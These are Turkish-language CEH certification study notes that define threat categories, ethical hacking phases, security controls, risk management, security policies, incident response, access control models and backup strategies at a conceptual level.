• **Kurumsal Bilgi Güvenliği Mimarisi (EISA)** - süreçler, gereksinimler, ilkeler ve modeller aracılığıyla kuruluşun bilgi sistemlerinin yapısını ve davranışını belirler.

**Tehdit Kategorileri**

`    `**• Ağ Tehditleri**    

`            `• Bilgi Toplama

`            `• Sniffing ve gizlice dinleme

`            `• DNS/ARP Zehirlemesi

`            `• MITM (Ortadaki Adam Saldırısı)

`            `• DoS/DDos

`            `• Parola tabanlı saldırılar

`            `• Güvenli Duvarı ve IDS  saldırısı

`            `• Session Hijacking

`    `**• Host Tehditleri**

`            `• Parola kırma

`            `• Kötü amaçlı yazılım (Malware) saldırıları

`            `• Ayak izi oluşturma (Footprinting)

`            `• Profil oluşturma (Profiling)

`            `• Rastgele kod yürütme

`            `• Backdoor erişimi

`            `• Yetki Yükseltme

`            `• Code Execution

`    `**• Uygulama Tehditleri**

`            `• Enjeksiyon saldırıları

`            `• Yanlış veri/giriş doğrulaması

`            `• Yanlış hata işleme ve ürütme yönetimi

`            `• Gizli alan manipülasyonu

`            `• Bozuk oturum yönetimi

`            `• Kriptografi sorunları

`            `• SQL Injection

`            `• Phishing

`            `• Buffer Overflow

`            `• Bilgi ifşası

`            `• Güvenlik yanlış yapılandırmalar

**Saldırı Vektörleri**

Bir bilgisayar korsanının bir yük veya kötü amaçlı bir sonuç sunmak için bir ana bilgisayara erişebileceği yol, yöntem.

`      `**• Gelişmiş Kalıcı Tehditler**

`            `o Gelişmiş bir kalıcı tehdit, tipik olarak bir ulus devlet veya devlet destekli bir grup olan, bir bilgisayar ağına yetkisiz erişim sağlayan ve uzun bir süre boyunca tespit edilmeden kalan gizli bir tehdit aktörüdür; Genellikle sıfır gün (Zer-day) saldırıları kullanılır.

`      `**• Bulut Bilişim / Bulut Tabanlı Teknolojiler**

`            `o Bir müşterinin uygulama bulutundaki kusur, saldırganın diğer müşterinin verilerine erişmesine  izin verir.

`      `**• Virüsler, Solucanlar ve Zararlı Yazılımlar (Malwares)**

`            `o Virüsler ve solucanlar, saniyeler içinde bir ağa bulaşabilen en yaygın ağ tehdididir.

`      `**• Ransomware**

`            `o Bilgisayar sisteminin dosya ve klasörlerine erişimi kısıtlar ve kısıtlamaları kaldırmak için saldırgana çevrimiçi fidye ödemesi talep eder.

`      `**• Mobil Cihaz Tehditleri**

`            `o 

`      `**• Botnetler**

`            `o Bir davetsiz misafir tarafından çeşitli ağ saldırıları gerçekleştirmek için kullanılan güvenliği ihlal edilmiş sistemlerden oluşan devasa ağ.

`      `**• İçeriden Saldırılar**

`            `o Hoşnutsuz çalışan personel, varlıklara içeriden zarar verebilir.

`      `**• Phishing (Oltalama) Saldırıları**

`            `o 

`      `**• Web Uygulaması Tehditleri**

`            `o SQL Injection, XSS (Cross-site-scripting) saldırıları gibi...

`      `**• IoT Tehditleri**

`            `o 

**Saldırı Türleri**

**1. İşletim Sistemi**

İşletim sistemi kusurlarını veya konuk hesapları ya da varsayılan parolalar gibi içindeki güvenlik sorunlarını hedef alan saldırılar.

`            `• **Vektörler**: Buffer overflows,  Protokol Uygulamaları, yazılım kusurları, yama seviyeleri, kimlik doğrulama şemaları..

**2. Application Level**

Programlama koduna ve yazılım mantığına yönelik saldırılar.

`            `• **Vektörler:** Buffer overflows, Bugs, XSS, DoS, SQL Injection, Ortadaki adam saldırısı (MitM)..

**3. Yanlış Yapılandırma**

Saldırı, yanlış yapılandırma veya varsayılan yapılandırma nedeniyle yanlış yapılandırılmış sistemlerden yararlanır.    

**4. Shrink-Wrap Kodu**

Yamalanmamış veya kötü yapılandırılmış yazılımlardaki deliklerden yararlanma eylemi.

`            `• **Örnekler:** Sürüm 1.0'daki yazılım hatası; Örnek CGI komut dosyalarında DEfect; Varsayılan parolalar gibi..

**Güvenlik Açıkları**

`            `**• CVSS - Ortak Güvenlik Açığı Puanlama Sistemi**

`                    `o Sayısal puanı şiddete dayalı yerleştirilir.

`            `**• CVE – Ortak Güvenlik Açıkları ve Etkilenmeler**

`                    `o MITRE tarafından tutulan, genel olarak duyurulan güvenlik açıklarının ve etkilenmelerin bir listesidir.

`             `**• NVD - Ulusal Güvenlik Açığı Veritabanı**

`                    `o NIST tarafından tutulan, MITRE CVE listesiyle tamamen senkronize edilmiş bir veritabanıdır; US Gov. güvenlik açıkları deposu.

**Güvenlik Açığı Kategorileri**

`            `• **Yanlış yapılandırma** - bir hizmeti veya uygulamayı yanlış yapılandırma.

`            `• **Varsayılan yükleme** - varsayılan olarak gelen bir uygulamadaki ayarların değiştirilmemesi.

`            `• **Arabellek taşması** **(Buffer Overflow)** - kod yürütme hatası.

`            `• **Eksik yamalar** - yamalanmamış sistemler.

`            `• **Tasarım kusurları** - şifreleme ve veri doğrulama gibi sistem tasarımına özgü kusurlar.

`            `• **İşletim Sistemi Kusurları** - her işletim sistemine özgü kusurlar.

`            `• **Varsayılan parolalar** - sistem/uygulama ile birlikte gelen varsayılan parolaları bırakma.

**Sızma Testi Aşamaları (CEH)**

`            `1. **Saldırı Öncesi Aşama** - Keşif ve veri toplama.

`            `2. **Saldırı Aşaması** - Ağa nüfuz etmeye ve saldırıları gerçekleştirmeye çalışır.

`            `3. **Saldırı Sonrası Aşama** - Bir sistemi saldırı öncesi duruma döndürmek ve raporlar sunmak için temizleme..

**!!!Dikkat: Sınav için, EC-Council kendi metodolojisini getirir ve sınav için ihtiyacınız olan tek şey budur; ilgileniyorsanız başka bir pentesting metodolojisini buradan kontrol edebilirsiniz; Sertifika içeriğinin yanı sıra profesyonel bir pentester olmak için çalışıyorsanız, OSSTMM'yi (Açık Kaynak Güvenlik Testi Metodolojisi El Kitabı) öneririm.**

**Etik Hacking'in Beş Aşaması**

`            `**1. Keşif**

Hedefler hakkında kanıt toplamak; İki tür keşif vardır:

`            `• **Pasif Keşif:** Sistemlerle **doğrudan etkileşim kurmadan** hedeflenen bilgisayarlar ve ağlar hakkında bilgi edinin. 

`                    `o Örneğin: Google Arama, Genel kayıtlar, Yeni çıkanlar, Sosyal Medya, Wardrive tarama ağları. 

`            `• **Aktif Keşif:** Hedef ile doğrudan etkileşimi içerir

`                    `o Örn: Hedef, iş görüşmesi için bir telefon görüşmesi yapın; NMAP, Nessus, OpenVas, Nikto ve Metasploit gibi araçlar Aktif keşif olarak kabul edilebilir

`            `**2. Tarama & Enumeration**

Hedefler hakkında daha derinlemesine bilgi edinme.

`            `• Örneğin: Ağ Tarama, Port Tarama, Servislerin hangi sürümlerinin çalıştığı.

`            `**3. Erişim Elde Etme (Gaining Access)**

Saldırılar bir sisteme erişmek için seviyelendirilir.

`            `• Örneğin: Yerel olarak (çevrimdışı), LAN üzerinden veya internet üzerinden yapılabilir.

`                    `o Örneğin: Meşru bir kullanıcı veya farklı sistemler gibi davranarak sistemden yararlanmak için kimlik sahtekarlığı yapmak, bir güvenlik açığından yararlanmak için hedef sisteme hata içeren bir veri paketi gönderebilirler.

`                    `o Command Injection, Buffer overflow, DoS, kimlik bilgileri için brute force saldırıları, sosyal mühendislik, yanlış yapılandırmalar gibi birçok teknik kullanılabilir.

`            `**4. Elde Edilen Erişimin Devam Etmesi (Maintaining Access)**

Gelecekteki erişimi sağlamak için yerleştirilen öğelerdir.

`            `• Örenğin: Rootkit, Trojan Virüsü, Backdoor bu tür araçlara örnek olarak gösterilebilir.

`            `**5. İzlerin Kapatılması (Covering Tracks)**

Fark edilmeden başarıyı ve müdahaleyi gizlemek için atılan adımlar.

`            `• Örneğin: Logları temizleyin; Trojan virüslerini veya kötü amaçlı backdoor programlarını gizleyin.

**Üç Tür Aktif Savunma**

`            `**• Oyalama (Annoyance)** 

`                    `o Bir bilgisayar korsanını izlemeyi ve onu sahte bir sunucuya yönlendirmeyi, zamanını boşa harcamayı ve tespit edilmesini kolaylaştırmayı içerir.

`            `**• Attribution** 

`                    `o Bir saldırganı tanımlamak; Bir saldırının kaynağını belirli bir konuma, hatta bireysel bir bilgisayar korsanına kadar izlemek için araçlar kullanır.

`            `**• Saldırı** 

`                    `o Bu en tartışmalı olanıdır. \"Geri hacklemek\" için, bir şirket verilerini silmek veya hatta intikam almak için iddia edilen bir bilgisayar korsanının bilgisayarına erişir. Bu adımların her ikisi de yasa dışı olarak kabul edilir.

**Bilgi Güvencesi (IA)**

Bilgilerin kullanımı, işlenmesi, depolanması ve iletilmesi sırasında bilgi ve bilgi sistemlerinin Bütünlüğünün, Kullanılabilirliğinin, gizliliğinin ve gerçekliğinin güvencesini ifade eder.

`            `• IA'nın elde edilmesine yardımcı olan süreçler: 

`                    `o Yerel politika, süreç ve rehberlik geliştirme. 

`                    `o Ağ ve kullanıcı kimlikasyon stratejisi tasarlama. 

`                    `o Ağ güvenlik açıklarının ve tehditlerin belirlenmesi (güvenlik açığı değerlendirmeleri, ağın güvenlik duruşunu özetleyin). 

`                    `o Tanımlama sorunları ve kaynak gereksinimleri. 

`                    `o Belirlenen kaynak gereksinimleri için plan oluşturma. 

`                    `o Uygun IA kontrollerinin uygulanması. 

`                    `o Bilgi sistemlerinin C&A (sertifika ve akreditasyon) sürecinin gerçekleştirilmesi, güvenlik açıklarını izlemeye ve güvenlik önlemleri uygulamaya yardımcı olur. 

`                    `o Resmi ve özel kuruluştaki tüm personele bilgi güvencesi eğitimi sağlamak.

**Bilgi Güvenliği Yönetimi Programı**

Gerekli **bilgi güvenliği düzeyini belirlemek** için politikaların, süreçlerin, prosedürlerin, standartların ve kılavuzların kombinasyonu

`             `•İşletmenin daha az risk altında çalışmasını sağlamak için tasarlanmıştır. 

`            `• Bilgi güvenliği ile ilgili tüm organizasyonel ve operasyonel süreçleri ve katılımcıları kapsar.

**EISA - Kurumsal Bilgi Güvenliği Mimarisi**

Bir kuruluşun bilgi sistemlerinin yapısını ve davranışını belirleyen gereksinimler, süreç, ilkeler ve modeller kümesi.

`            `• EISA'nın Hedefleri: 

`                    `o Ağ davranışlarının izlenmesi ve algılanmasında yardım. 

`                    `o Güvenlik ihlallerini tespit etme ve bunlardan kurtarma.

`                    `o Bir kuruluşun kaynaklarına öncelik verme 

`                    `o Bir kuruluşun BT varlıklarının risk değerlendirmesinin yapılmasına yardımcı olma. 

`                    `o Olay yanıtı, olağanüstü durum kurtarma, olay korelasyonu vb. gibi güvenlik hükümlerine dahil edildiğinde olası maliyet.

**Fiziksel Güvenlik Kontrolleri**

`            `• **Önleyici kontrol:** Aktörü tehdidi gerçekleştirmekten caydırır. 

`                    `o Örneğin: Çit, Sunucu Kilitleri, Mantraplar, vb. 

`            `• **Tespit kontrolü**: Bir aktörün tehdidini tanır. 

`                    `o örneğin: Arka plan kontrolü, CCTV. 

`            `• **Caydırıcı kontrol**: Aktörü tehdide teşebbüs etmekten caydırır. 

`                    `o örneğin: Uyarı İşareti. 

`            `• **Kurtarma:** Ortaya çıkan bir tehdidin etkisini azaltır. 

`                    `o örneğin: Yedeklemeler. 

`            `• **Telafi kontrolü:** Yukarıdaki işlevlerden herhangi birine alternatif düzeltmeler sağlar.

Güvenlik kontrollerinin çoğu önleyici faz kontrolleridir.

⚠️ Derinlemesine Savunma: Birden fazla güvenlik kontrolü katmanı; Denetim hatası durumunda artıklık sağlar. (örneğin: aşağıdaki resim)

**Güvenlik Denetim Türleri**

**Açıklama                                   Örnekler**

**Fiziksel**                      Güvenlik, ışıklar, kameralar, yangın söndürücüler, taşkın koruması.

**Yönetim**                     InfoSec için Bilinçlendirme, Politikalar, Prosedürler ve Yönergeler Eğitimi.

**Teknik**                        IDS/IPS, Firewall, şifreleme, akıllı kartlar, erişim kontrol listesi.

**Açıklama                                   Örnekler**

**Önleyici**                     Kimlik doğrulama, alarm zilleri.

**Tespit**                         Denetimler, Yedeklemeler.

**Düzeltici**                    Geri yükleme işlemleri.

**Riski Yönetmek**

Risk, iç veya dış yükümlülüklerden kaynaklanan zarar verebilecek veya kayba neden olabilecek veya başka olumsuz etkilere neden olabilecek bir tehdidin veya olayın ortaya çıkma olasılığı olarak tanımlanabilir.

**Risk Matrisi**

Risk değerlendirmesi sırasında, sonuç ciddiyeti kategorisine karşı olasılık veya olasılık kategorisini dikkate alarak risk seviyesini tanımlamak için bir **risk matrisi** kullanılır.

`            `• Bu, risklerin görünürlüğünü artırmak ve yönetimin karar vermesine yardımcı olmak için basit bir mekanizmadır.

**Risk Yönetimi**

Risklerin tanımlanması, değerlendirilmesi ve önceliklendirilmesi, ardından talihsiz olayların olasılığını veya etkisini en aza indirmek, izlemek ve kontrol etmek veya fırsatların gerçekleşmesini en üst düzeye çıkarmak için kaynakların koordineli ve ekonomik olarak uygulanmasıdır.

**Riski Yönetim Aşamaları**

`            `**• Risk Tanımlama** 

`                    `o İç ve dış risklerin kaynaklarını, nedenlerini, sonuçlarını tanımlar. 

`            `**• Risk Değerlendirmesi** 

`                    `o Kuruluşun riskini değerlendirir ve riskin olasılığı ve etkisi hakkında bir tahmin sağlar.

`            `**• Risk Tedavisi** 

`                    `o Tanımlanan riskler üzerinde uygun kontrolleri seçer ve uygular.

`            `**• Risk İzleme** 

`                    `o Riskleri ele almak için uygun kontrolün uygulanmasını sağlar ve yeni bir riskin oluşma olasılığını belirler. 

`            `**• Risk İncelemesi** 

`                    `o Uygulanan risk yönetimi stratejilerinin performansını değerlendirir.

**Tehdit Modelleme**

Bir uygulamanın güvenliğini etkileyen tüm bilgileri yakalayarak, düzenleyerek ve analiz ederek bir uygulamanın güvenliğini analiz etmek için kullanılan bir risk değerlendirme yaklaşımıdır.

`            `**1. Hedefleri Tanımlayın** 

`                    `o Sonraki adımlara ne kadar çaba gösterilmesi gerektiğini belirlemeye yardımcı olur.

`            `**2. Uygulamaya Genel Bakış** 

`                    `o Bileşenleri, veri akışlarını ve güven sınırlarını tanımlama.

`            `**3. Uygulamayı Ayrıştır** 

`                    `o Tehditler hakkında daha fazla ayrıntı bulun. 

`            `**4. Tehditleri Tanımlayın** 

`                    `o Adım 2 ve 3'te elde edilen bilgileri kullanarak kontrol senaryonuz ve bağlamınızla ilgili tehditleri tanımlayın. 

`            `**5.Güvenlik Açıklarını Belirleme** 

`                    `o Güvenlik açığı kategorileri kullanılarak bulunan tehditlerle ilgili zayıflıkları belirleme.

**Güvenlik Politikaları**

**1. Politikalar** - Bilgilerin korunmasına ilişkin üst düzey ifadeler; CIA üçlüsünü korumak için iş kuralları; Güvenlik İlkeleri Kullanıcılara, Sistemlere, İş Ortaklarına, Ağlara ve Sağlayıcılara uygulanabilir.

` `**o Ortak Güvenlik Politika Örnekleri:**

`            `**▪ Parola Politikası** 

`                    `▪ Parola karmaşıklığı gereksinimlerini karşılayın. 

`                    `▪ Örneğin: En az 8 karakter uzunluğunda, büyük ve küçük harfli ve alfanümerik rakamlar.

`            `**▪ Kablosuz Güvenlik Politikası** 

`            `**▪AUP - Kabul Edilebilir Kullanım Politikası**  

`                    `▪ Şirketin varlıklarının  nasıl düzgün bir şekilde kullanılacağı, 

`                    `▪örneğin: şirketin bilgisayarıyla 'Yapılması ve Yapılmaması Gerekenler'.

`            `**▪ Veri Saklama Politikası** 

`                    `▪ ör. Verileri X kez saklayın. 

`            `**▪ Erişim Kontrol Politikaları** 

`                    `▪ örneğin: Sunuculara erişme; Güvenlik Duvarları

**2. Prosedürler** - Bir hedefe ulaşmak için ayrıntılar kümesi adımları; Uygulama talimatları.

**3. Kılavuzlar** - Bir durum verilen eylemler hakkında tavsiyeler; Öneriliyor fakat yapılması zorunlu değildir.

**Güvenlik Politikası - Örnekler**

`            `**• Erişim Kontrol Politikası** 

`                    `o Bu, korunan kaynakları ve bunlara erişimi kontrol eden kuralları tanımlar.

`            `**• Uzaktan Erişim İlkesi** 

`                    `o Bu, kimlerin uzaktan erişime sahip olabileceğini tanımlar ve erişim ortamı ile uzaktan erişim güvenlik denetimlerini tanımlar.

`            `**• Güvenlik Duvarı Yönetim Politikası** 

`                    `o Bu, bir kuruluştaki güvenlik duvarlarının erişimini, yönetimini ve izlenmesini tanımlar.

`            `**• Ağ Bağlantı Politikası** 

`                    `o Bu, ağa kimlerin yeni kaynaklar yükleyebileceğini, yeni cihazların kurulumunu onaylayabileceğini, ağ değişikliklerini belgeleyebileceğini vb. Tanımlar.

`            `**• Parola Politikası** 

`                    `o Bu, mevcut kaynaklarda güçlü parola koruması kullanma yönergelerini tanımlar.

`            `**•Kullanıcı Hesabı Politikası** 

`                    `o Bu, kullanıcı hesaplarının hesap oluşturma sürecini, yetkisini, haklarını ve sorumluluğunu tanımlar.

`            `**• Bilgi Koruma Politikası** 

`                    `o Bu, bilginin hassasiyet düzeylerini, kimlerin erişebileceğini, nasıl depolandığını ve iletildiğini ve depolama ortamından nasıl silinmesi gerektiğini vb. Tanımlar.

`            `**• Özel Erişim Politikası** 

`                    `o Bu, sistem kaynaklarına özel erişim izni verilmesine ilişkin hüküm ve koşulları tanımlar.

`            `**• E-posta Güvenlik Politikası** 

`                    `o Bu politika, kurumsal e-postanın doğru kullanımını yönetmek için tasarlanmıştır.

`            `**• Kabul Edilebilir Kullanım Politikası** 

`                    `o Bu, sistem kaynaklarının kabul edilebilir kullanımını tanımlar.

**Güvenlik Politikası Türleri** 

`            `**1. Karışık Politika** - Bu ilkenin genellikle sistem kaynaklarının kullanımıyla ilgili herhangi bir kısıtlaması yoktur.

`            `**2. İzin Veren Politika** - Bu politika tamamen açık başlar ve yalnızca tehlikeli hizmetlerin/saldırıların veya davranışların engellendiğini bilir. Bu tür bir politikanın yürürlükte kalması için düzenli olarak güncellenmesi gerekir.

`            `**3. İhtiyatlı Politika** - Bu politika, bilinen ancak gerekli tehlikelere izin verirken maksimum güvenlik sağlar. Bu tür bir ilke tüm hizmetleri engeller ve yalnızca güvenli\/gerekli hizmetler ayrı ayrı etkinleştirilir. Her şey loglanır.

`            `4. **Paranoyak Politika** - Bu politika her şeyi yasaklar. İnternet bağlantısına veya ciddi şekilde kısıtlanmış İnternet kullanımına izin verilmez.

**Güvenlik Politikası Oluşturma Adımları**

`            `1. Risk Değerlendirmesi Yapın 

`            `2. Güvenlik Standartları ve Çerçeveleri'ni kılavuz 

`            `3 olarak kullanın. Yönetim ve Personel girdisi alın 

`            `4. İlkeyi uygulayın. Uyumsuzluk için cezaları kullanma 

`            `5. Son taslağı tüm kuruluşa yayınlayın. 

`            `6. Tüm personelin politikayı anladıklarını okumasını/imzalamasını sağlayın. 

`            `7.Politikanın uygulanmasına yardımcı olacak araçlar kullanın.

`            `8. Personel eğitimi 

`            `9. Düzenli olarak gözden geçirin ve güncelleyin

**Olay Yönetim Süreci**

Olay, bir kuruluşun operasyonlarının, hizmetlerinin veya işlevlerinin kaybolmasına veya kesintiye uğramasına neden olabilecek bir olaydır. **Olay yönetimi,** bir kuruluşun gelecekteki bir yeniden ortaya çıkmasını önlemek için tehlikeleri tanımlamak, analiz etmek ve düzeltmek için faaliyetlerini tanımlayan bir terimdir.

`            `**1. Hazırlık:** İnsanları seçin, kurallar atayın, olayı işlemek için araçlar tanımlayın

`            `**2. Algılama & Analiz**: Bir olayın meydana geldiğini belirleyin (IDS, SIEM, AV,vb.) 

`            `**3. Sınıflandırma & Önceliklendirme:** 

`            `**4. Bildirim:** Küçük ve büyük olayları tanımlamak; bir olayı kime ve nasıl bildireceği. 

`            `**5. Çevreleme:** Hasarı sınırlayın; Konağı izole etmek; Sistem sahipleriyle iletişim kurun. 

`            `**6. Adli Soruşturma:** Adli araçları kullanarak olayın temel nedenini araştırmak; Sistem günlükleri, gerçek zamanlı bellek, ağ cihazı günlükleri, uygulama günlükleri vb)

`             `**7. Ortadan Kaldır & Kurtarma:** Olayın nedenini kaldırın; Gerekirse yama. İyileşme: üretime geri dönün; Etkilenen sistemleri izleyin. 

`            `**8. Olay Sonrası Faaliyetler:** Ne olduğunu ve neden olduğunu belgeleyin; Bilgi aktarın.

**Olay Müdahale Ekibi Görevleri**

`            `1. Müşterinin güvenlik açıklarına yönelik proaktif bir yaklaşım benimseyerek güvenlik konularını yönetmek 

`            `2. İzlenmesi gereken süreç ve prosedürlerin geliştirilmesi veya gözden geçirilmesi 

`            `3. Bir olaya verilen yanıtı yönetmek ve hasarı en aza indirmek ve kontrol altına almak için tüm prosedürlerin doğru bir şekilde takip edilmesini sağlamak 

`            `4. Etki ve tehdit dahil olmak üzere bir olay sırasında neler olduğunu belirleme ve analiz etme 

`            `5. Seucirty olaylarını ve sorunlarını bildirmek için tek bir iletişim noktası sağlamak 

`            `6. Tüm süreç ve prosedürlerin geçerli olduğundan emin olmak için yasal ve düzenleyici gerekliliklerdeki değişiklikleri gözden geçirmek 

`            `7. Mevcut kontrolleri gözden geçirmek ve gelecekteki olayları önlemek için adımlar ve teknolojiler önermek 

`            `8. Yerel kolluk kuvvetleri, devlet kurumları, kilit ortaklar ve tedarikçilerle ilişki kurmak.

**SIEM - Güvenlik Bilgileri ve Olay Yönetimi**

Ağdaki her ana bilgisayardan log dosyaları, trafik yakalamaları, SNMP iletileri vb. dahil olmak üzere ağdan veri noktaları toplar. SIEM, tüm bu verileri tek bir merkezi konumda toplayabilir ve güvenlik ve performans sorunlarının yanı sıra olumsuz eğilimleri gerçek zamanlı olarak aramak için analiz için ilişkilendirebilir.
**

`               `**• Toplama(Aggregation):** Farklı kaynaklardan veri toplama ve verileri tek bir formatta düzenleme. SIEM sistemi içinde veri toplayan herhangi bir aygıta **collector** veya **aggregator** denir.
**

`              `**• Korelasyon:** Farklı kaynaklardan gelen verilere bakan ve ağınızda meydana gelen olaylar hakkında tespitler yapabilen mantıktır. (NIDS/NIPS'in yerleşimine bağlı olarak bant içi veya bant dışı olabilir).

`                    `**o Alerts** - Bir şeyler kötüleşirse bildirim için. 

`                    `**o Triggering** - Eşikleri aşmak için.

`            `**• Normalleştirme:** Aslında birden fazla tablo oluşturacak \/ verilerin daha verimli hale gelebileceği ve analiz ve rapor araçlarımızın daha iyi çalışmasını sağlayacak şekilde düzenleyecektir.

`            `**• WORM - Bir Kez Yazın Çok Kez Okuyun:** Konsept, log dosyalarının değerli olması ve çoğu zaman onlara arşivsel bir şekilde bakmak isteyebileceğinizdir, böylece bunları depolamak için WORM sürücüleri gibi optik ortamlar kullanabiliriz.

**Most Popular SIEM Tools:**

**Kimlik ve Erişim Yönetimi**

**Tanımlama, Kimlik Doğrulama, Yetkilendirme** ve **Hesap Oluşturma**, varlıkları güvenli bir şekilde yönetmek için birlikte çalışır

`            `**1.Tanımlama (Identification)**

Kimlik bilgileriyle ilgili bilgiler kullanıcıyı tanımlar.

`            `**• Örnek:** 

`                    `o Adınız, kullanıcı adınız, kimlik numaranız, çalışan numaranız, SSN'niz vb.

`            `**2. Kimlik Doğrulama** 

"Meşru kullanıcı olduğunuzu kanıtlayın". - Her zaman çok faktörlü kimlik doğrulama ile yapılmalıdır!

`            `**• Kimlik Doğrulama Faktörleri:** 

`                    `o **Bildiğiniz** bir şey (örneğin - parola) 

`                    `o **Sahip olduğunuz** bir şey (örneğin - akıllı kart) 

`                    `o **Olduğunuz** bir şey (örneğin - parmak izi) 

`                    `o **Yaptığınız** bir şey (örneğin - android deseni; manuel imza) 

`                    `o **Bulunduğunuz** bir yerde (örneğin - coğrafi konum)

**Çok faktörlü kimlik doğrulama** genellikle bu örneklerden ikisini kullanır (ör. - **Bildiğiniz** Bir Şey(1) ve **Sahip Olduğunuz** Bir Şey(2), asla aynı kategoride değil.

`            `**3. Yetkilendirme kavramları** 

Nelere erişmenize izin veriliyor – Erişim Denetimi modellerini kullanıyoruz, neyi ve nasıl uyguladığımız kuruluşa ve güvenlik hedeflerimizin ne olduğuna bağlıdır.

`            `**• İzinler:** 

`                    `o Kaynaklara uygulanır 

`            `**• Haklar / Ayrıcalıklar:** 

`                    `o Sistem düzeyinde atama 

`            `**• Yetkilendirme stratejileri:** 

`                    `o En az ayrıcalıklı 

`                    `o Görevlerin Ayrılması

`            `**4.Hesaplama**

Bir Eylemi Öznelerin Kimliğine İzleme: 

`            `• Belirli bir eylemin kim/ne tarafından gerçekleştirildiğini kanıtlamak (reddetmemek); Loglama.

**Erişim Kontrol Modelleri**

`            `**• Zorunlu Erişim Kontrolü (MAC):**

`                    `o Her nesnenin bir etiketi vardır.

`                            `▪ Confidential, Secre, Top Secret, vb.

`                    `o Yönetici, kimin hangi güvenlik düzeyine erişeceğine karar verir; Kullanıcılar bu ayarları değiştiremez.

`                    `o Eski sistemlerde kullanılır. (örneğin, Çok Gizli Devlet bilgileri)

`            `**• İsteğe Bağlı Erişim Kontrolü (DAC):** 

`                    `o Çoğu işletim sisteminde kullanılır.

`                    `o Verilerin sahibi erişimi tanımlar.

`                    `o Çok esnek erişim kontrolü; Çok zayıf güvenlik.

`            `**• Rol Tabanlı Erişim Denetimi (RBAC):** 

`                    `o Kaynaklara erişim, kuruluşunuzdaki/iş işlevinizdeki bir rol (Yönetici, Direktör vb.) tarafından tanımlanan bir dizi kuralla tanımlanır. 

`                    `o Yöneticiler, kullanıcının rolüne göre erişim sağlar.

`                            `▪ Haklar açıklayıcılık yerine zımnen kazanılır.

`                    `o Windows'ta, rol tabanlı erişim denetimi sağlamak için Gruplar'ı kullanın.

`                            `▪ örneğin Yönetici Grupları --> Hakları ve İzinleri, ▪ Satış Grubu --> Hakları ve İzinleri vb.

**Veri Kaybını Önleme (DLP)** 

Veri Kaybını Önleme (DLP), **veri ihlallerini, sızıntıyı veya hassas verilerin** istenmeyen şekilde imha edilmesini algılama ve önleme uygulamasıdır. Kuruluşlar, verilerini korumak, güvence altına almak ve düzenlemelere uymak için DLP'yi kullanır.

`            `• DLP terimi, kuruluşları hem veri kaybına hem de veri sızıntısı önlemeye karşı savunmayı ifade eder.

**Kuruluşlar DLP'yi genellikle şu amaçlarla kullanır:**

`            `• Kişisel Olarak Tanımlanabilir Bilgileri (PII) Korumak ve ilgili düzenlemelere uymak. 

`            `• Kuruluş için kritik öneme sahip Fikri Mülkiyeti korumak. 

`            `• Büyük kuruluşlarda veri görünürlüğü elde etmek.

`            `• Kendi Cihazını Getir (BYOD) ortamlarında mobil işgücünün güvenliğini sağlamak ve güvenliği sağlamak. 

`            `• Uzak bulut sistemlerinde verilerin güvenliğini sağlamak.

**Veri Yedekleme**

Veri yedekleme, kuruluşun BT felaketlerinden, güvenlik ihlallerinden, uygulama arızalarından, insan hatalarından vb. kurtulmasına yardımcı olarak iş sürekliliğini korumada çok önemli bir rol oynar. COBIT, SSAE, SOCII, PCI-DSS, HIPPA, SOX, FINRA, FISMA, GDPR vb. gibi tüm yasal uyumluluklar, işletmelerin kritik verilerin veri yedeklerini belirli bir süre boyunca sürdürmesini gerektirir.

**Yedekleme Stratejileri**

`            `1. Kritik iş verilerinin belirlenmesi 

`            `2. Yedekleme ortamını seçme 

`            `3. Bir yedekleme teknolojisi seçme 

`            `4. Uygun RAID düzeylerini seçme 

`            `5. Uygun bir yedekleme yöntemi seçme

**Üç Yedekleme Yöntemi**

**1.Soğuk Yedekleme**

• **Boş site, donanım yok, veri yok, insan yok.** 

• **Online hale getirmek haftalar sürüyor.**

• Temel ofis alanları. (örneğin bina, sandalyeler) 

• Operasyonel ekipman yok. 

• En ucuz kurtarma sitesi.

**2.Ilık Yedekleme**

• Soğuk ve sıcak arasında bir yerde - Sadece devam etmek için yeterli (Raf alanına sahip büyük oda, donanımı getiriyorsunuz). 

• Donanım hazır ve bekliyor - yazılımı ve verileri getiriyorsunuz. 

• Çevrimiçi hale getirmek günler sürüyor. 

• Operasyonel ekipman ancak çok az veri var veya hiç veri yok.

**3.Sıcak Yedekleme**

**• Üretim sistemlerinin tam kopyası.** 

• Uygulamalar ve yazılımlar sürekli güncellenir. 

• Bir anahtarı çevirin ve her hareketi yapın.

**• Çevrimiçi hale getirmek saatler alır.** 

• Gerçek zamanlı senkronizasyon. 

• Hemen hemen tüm veriler kullanıma hazır - genellikle sadece hızlı bir güncelleme. 

• Çok pahalı.

**Sızma Testi - Temel Bilgiler**

Halk arasında sızma testi, pentest veya etik hackerlık olarak bilinen bir penetrasyon testi, sistemin güvenliğini değerlendirmek için gerçekleştirilen bir bilgisayar sistemine yapılan yetkili bir simüle edilmiş siber saldırıdır.

**Not:Bir güvenlik açığı değerlendirmesi ile karıştırılmamalıdır.**

`            `**•** Güvenlik kontrollerinin açıkça tanımlanmış, tam ölçekli testi.

`            `•Aşamalar

`                    `o Hazırlık - Sözleşmeler ve ekip tarafından belirlenir.

`                    `o Değerlendirme - Tüm hack aşamaları (keşif, tarama, saldırılar vb.) 

`                    `o Değerlendirme Sonrası - Raporlar & sonuçlar.

`            `•Tür

`                    `o Black Box - Sistem veya ağ hakkında herhangi bir bilgi olmadan yapılır. 

`                    `o Wite Box - Saldırgan, sahibi/hedefi tarafından sağlanan sistem hakkında tam bilgiye sahip olduğunda. 

`                    `o Grey Box - Saldırgan sistem ve/veya ağ hakkında biraz bilgiye sahip olduğunda.

**Hukuk Kategorileri**

`            `**• Ceza -** Kamu güvenliğini koruyan ve genellikle hapis cezası eklenmiş yasalar. 

`            `**• Medeni** - Özel haklar ve çözüm yolları. 

`            `**• Ortak** - Toplumsal geleneklere dayanan yasalar.

**Yasalar ve Standartlar:** 

**OSSTM Uyumluluğu**

ISECOM tarafından sürdürülen **'Açık Kaynak Güvenlik Testi Metodolojisi El Kitabı'**, üç tür uyumluluğu tanımlar.

`            `**• Yasama** - Devlet düzenlemeleriyle ilgilenir (SOX ve HIPAA gibi). 

`            `**• Sözleşmeli** - Endüstri / grup gereksinimleri ile ilgilenir (PCI DSS gibi). 

`            `**• Standartlara dayalı -** Belirli bir grubun\/kuruluşun üyeleri (ITIL, ISO ve OSSTMM'nin kendisi gibi) tarafından takip edilmesi gereken uygulamalarla ilgilenir.

`            `**• OSSTM Denetimleri**

`                    `**o OSSTM Sınıf A - İnteraktif Kontroller** 

